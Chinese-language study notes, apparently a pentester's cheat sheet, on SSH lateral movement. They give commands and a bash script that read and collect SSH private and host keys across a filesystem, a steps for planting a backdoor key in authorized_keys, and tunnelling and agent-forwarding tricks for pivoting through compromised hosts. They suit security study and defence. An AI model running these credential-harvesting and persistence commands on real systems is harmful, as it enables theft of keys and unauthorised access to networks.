

# SSH 横向移动

> [SSH横向移动备忘单|ssh内网横向渗透技巧 - 🔰雨苁ℒ🔰 (ddosi.org)](https://www.ddosi.org/ssh-movement/)

---

## SSH 的概念

> [什么是SSH？SSH是如何工作的？ - 华为 (huawei.com)](https://info.support.huawei.com/info-finder/encyclopedia/zh/SSH.html)

SSH（Secure Shell，安全外壳）是一种网络安全协议，与传统的 Telnet, FTP 使用明文传输数据不同, SSH 协议通过加密和认证机制实现安全的访问和文件传输等业务。

> 使用明文传输数据容易因中间人嗅探而泄露数据
>
> > [嗅探欺骗 | 凡间的精灵 (chenzhonzhou.github.io)](https://chenzhonzhou.github.io/2021/01/04/kali-xiu-tan-qi-pian/)
> >
> > [中间人攻击之ARP欺骗 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/562434778)
> >
> > [Telnet,Mstsc,SSH,FTP之间的比较和区别 - 上善若泪 - 博客园 (cnblogs.com)](https://www.cnblogs.com/jingzh/p/16018410.html)
> >
> > [常见服务类漏洞 - Geekby's Blog](https://www.geekby.site/2020/05/常见服务类漏洞/)
> >
> > [旭日酒馆 (xueyp.github.io)](https://xueyp.github.io/网络安全/2018/11/20/网络安全-局域网https嗅探.html)

---

## SSH 的工作流程

> [什么是SSH？SSH是如何工作的？ - 华为 (huawei.com)](https://info.support.huawei.com/info-finder/encyclopedia/zh/SSH.html)
>
> ---
>
> [SSH 证书登录教程 - 阮一峰的网络日志 (ruanyifeng.com)](https://www.ruanyifeng.com/blog/2020/07/ssh-certificate.html)

SSH 由服务器和客户端组成，为建立安全的SSH通道，双方需要先建立TCP连接，然后协商使用的版本号和各类算法，并生成相同的会话密钥用于后续的对称加密。在完成用户认证后，双方即可建立会话进行数据交互。

SSH的工作流程包括如下几个阶段:


> 其中密钥交换部分的流程如下:
>
> 

---

## 查找 SSH 密钥

一般在如下目录, 文件中:

```bash
/home/*
# 存储了允许登录到root用户的SSH公钥，每行一个公钥
# 格式为 algorithm base64-encoded-public-key comment
# 例如 ssh-rsa AAAAB3Nxxxxxem9FeM8w+zEmUb+Es= xxl-job
cat /root/.ssh/authorized_keys 
# 旧版本SSH(SSH协议版本1)中使用的公钥文件(deprecated)
cat /root/.ssh/identity.pub 
# 旧版本SSH(V1)中使用的私钥文件。(deprecated)
cat /root/.ssh/identity 
# 存储了 root 用户的 SSH 公钥 - SSH V2, 采用 RSA 算法
cat /root/.ssh/id_rsa.pub 
# root 的 ssh 私钥 - SSH V2, 采用 RSA 算法
cat /root/.ssh/id_rsa 
# 存储了 root 用户的 SSH 公钥 - SSH V2, 采用 DSA 算法
cat /root/.ssh/id_dsa.pub 
# root 的 ssh 私钥 - SSH V2, 采用 DSA 算法
cat /root/.ssh/id_dsa 
# SSH 客户端全局配置文件, 定义了 SSH 客户端连接到 SSH 服务器时的一些选项, 例如端口号, 超时时间, 加密算法等
cat /etc/ssh/ssh_config 
# SSH 服务器全局配置文件, 定义了SSH服务器接受SSH客户端连接时的一些选项，例如监听地址，最大连接数，认证方式等。
cat /etc/ssh/sshd_config 
# SSH 服务器的 DSA 主机密钥对的公钥文件
cat /etc/ssh/ssh_host_dsa_key.pub 
# SSH 服务器的 DSA 主机密钥对的私钥文件
cat /etc/ssh/ssh_host_dsa_key 
# SSH 服务器的 RSA 主机密钥对的公钥文件
cat /etc/ssh/ssh_host_rsa_key.pub 
# SSH 服务器的 RSA 主机密钥对的私钥文件
cat /etc/ssh/ssh_host_rsa_key 
# 旧版本SSH(V1)中 SSH 服务器的 SSH 公钥, 格式为二进制数据(deprecated)
cat /etc/ssh/ssh_host_key.pub 
# 旧版本SSH(V1)中 SSH 服务器的 SSH 私钥, 格式为二进制数据(deprecated)
cat /etc/ssh/ssh_host_key
# 存储了允许登录到当前用户的SSH公钥，每行一个公钥
cat ~/.ssh/authorized_keys 
# 旧版本SSH(V1)中使用的公钥文件(deprecated)
cat ~/.ssh/identity.pub 
# 旧版本SSH(V1)中使用的私钥文件。(deprecated)
cat ~/.ssh/identity 
cat ~/.ssh/id_rsa.pub 
cat ~/.ssh/id_rsa 
cat ~/.ssh/id_dsa.pub 
cat ~/.ssh/id_dsa 
```

也可以:

```bash
grep -rliF "ssh-rsa" /* --exclude=*.jar
grep -rliF "BEGIN RSA PRIVATE KEY" /* --exclude=*.jar
grep -rliF "BEGIN DSA PRIVATE KEY" /* --exclude=*.jar
grep -rliF "BEGIN OPENSSH PRIVATE KEY" /* --exclude=*.jar

grep -rli "ssh-rsa\|BEGIN RSA PRIVATE KEY\|BEGIN DSA PRIVATE KEY\|BEGIN OPENSSH PRIVATE KEY" /* --exclude=*.jar

grep -rli "BEGIN RSA PRIVATE KEY\|BEGIN DSA PRIVATE KEY\|BEGIN OPENSSH PRIVATE KEY" /etc/ssh/* /root/* /home/* --exclude=*.{jar,py,pyc,js} --binary-files=without-match
```
- `-r`: 递归搜索
- `-l`: 只显示文件名
- `-F`: 按照固定字符串搜索(不加 `-F`, 默认按照正则表达式搜索)
- `-i`: 忽略大小写
- `--exclude=*.jar`: 排除 jar 文件
- `--binary-files=without-match`: 不匹配二进制文件


```bash
#! /bin/bash
if [ ! -d "res" ]; then
    mkdir res
fi

files=$(
    grep -rli "BEGIN RSA PRIVATE KEY\|BEGIN DSA PRIVATE KEY\|BEGIN OPENSSH PRIVATE KEY" /etc/ssh/* /root/* /home/* --exclude=*.{jar,py,pyc,js} --binary-files=without-match
)

for file in $files; do
    cp $file res/
done

echo "Done!"

```


找到密钥后需要确认其可以用于哪些主机, 可以检查如下文件:

```bash
# Hosts 文件, 用于将主机名映射到 IP 地址
/etc/hosts 
# ssh 目录下的 known_hosts 文件, 用于存储 SSH 客户端连接过的 SSH 服务器的公钥
~/.ssh/known_hosts
# bash 历史命令文件, 用于存储用户执行过的命令
~/.bash_history 
# ssh 目录下的 config 文件, 用于存储 SSH 客户端的配置信息, 也可能不叫 config 而是其他自定义的名称, 存储了 SSH 客户端的配置信息, 例如 ip, 端口号, 密钥, 代理等
~/.ssh/config 
```

- `/etc/hosts`

  

- `~/.ssh/known_hosts`

  

- `~/.bash_history `

  

- `~/.ssh/config `

  

---

## SSH 密码后门

在攻击机上生成一对密钥,将公钥贴在受感染主机的 `~/.ssh/authorized_keys` 中

```bash
ssh-keygen -t rsa -C "备注信息"
```

然后将生成的 `.pub` 公钥放在受感染主机的 `~/.ssh/authorized_keys` 中即可使用本地的私钥 SSH 连接到受感染主机了

> 例如在 Redis 未授权写公钥中就是将公钥写入了 `authorized_keys` 中再 SSH 连接的

---

## SSH 反向隧道

### 断网主机联网

```bash
ssh -fNR 7890:localhost:7890 -i [ssh私钥绝对路径] [用户名]@[服务器IP]
```

- `-f` 后台运行
- `-N` 不执行远程命令, 仅做端口转发
- `-R` 远程端口转发

如此一来就可以在服务器上使用本地的 Clash 代理了

- `http代理`: `http://localhost:7890`
- `socks5代理`: `socks5://localhost:7890`

在打内网时可以由此实现断网主机联网的效果

---

### 转发流量

```bash
ssh -fND localhost:12345 -i [私钥路径] root@192.168.1.96
```

- `-f` 表示在后台运行 ssh 命令, 不占用终端
- `-N` 表示不执行远程命令,只做端口转发
- `-D localhost:12345` 表示创建一个动态端口转发, 将本地主机的 12345 端口作为 socks 代理
- `-i [私钥路径]` 表示使用指定私钥文件进行身份验证
- `root@192.168.1.96` 表示以 root 用户登录远程主机 192.168.1.96

这个命令可以使得通过 ssh 隧道访问远程主机上的网络服务, 或者使用远程主机作为代理访问其他网站


挂上后命令行会卡在这里 然后 Firefox 配置 socks 5 代理


如此这般就可以从本地的 Firefox 挂 96 的代理访问内网其他的服务了

除此以外还可以再套一层 Burpsuit: `BurpSuit -> Proxy Setting -> Network->Connections->Socks proxy`


配置 BurpSuit http 代理监听:


配置 Firefox http 代理


---

## SSH 劫持

> [Remote Service Session Hijacking: SSH Hijacking, Sub-technique T1563.001 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1563/001/)

攻击者可能会劫持一个当前拿下的主机与另一个主机的连接, 利用当前 SSH 会话中的公钥身份验证与其他系统建立的信任关系, 这可能是通过损害 SSH 代理本身或访问访问代理的socket来实现的;

SSH 劫持与 SSH 本身不同之处在于它劫持现有的 SSH session 而非使用有效的账户创建一个新的 session

----

### SSH 代理转发

> [SSH横向移动备忘单|ssh内网横向渗透技巧 - 🔰雨苁ℒ🔰 (ddosi.org)](https://www.ddosi.org/ssh-movement/)

SSH 代理的工作原理是允许一个中间机器 SSH Server 将 Local Host 的 SSH 密钥从当前客户端传递(转发)到下一个下游服务器 Remote Host



在这个过程中, SSH Server 中并不会存储也不会物理访问而仅仅是将密钥传递给 Remote Host

-----

### 劫持 SSH 代理转发

SSH 代理转发允许用户在不输入密码的情况下连接到其他机器。当存在活动会话时，可以利用此功能访问受感染用户 SSH 密钥有权访问的任何主机（无需直接访问密钥）。

```bash
# 常规使用SSH密钥连接远程主机:
ssh -i [私钥路径] [账户]/[主机]
# 使用 SSH 代理转发, 通过中间主机转发 SSH 密钥连接远程主机:
ssh -i [远程私钥路径] -o ProxyCommand="ssh -i [本地私钥路径] -W %h:%p [中间主机账户]/[中间主机]" [账户]/[远程主机]
```
- `-i`: 指定私钥路径
- `-o ProxyCommand`: 指定代理命令
- `-W %h:%p`: 指定代理命令的参数, `%h` 为远程主机, `%p` 为远程主机的端口号
  > 将SSH连接建立到远程主机hostname，并且将本地流量通过SSH通道传送到远程主机的%h和%p所表示的目标主机和端口。

---

```bash
ssh -i [本地私钥路径] -o ProxyCommand="ssh -i [中间跳板1的私钥路径] -W %h:%p [中间跳板1的用户名]@[中间跳板1的主机名或IP地址] | ssh -i [中间跳板2的私钥路径] -W %h:%p [中间跳板2的用户名]@[中间跳板2的主机名或IP地址]" [目标主机的用户名]@[目标主机的主机名或IP地址]
```


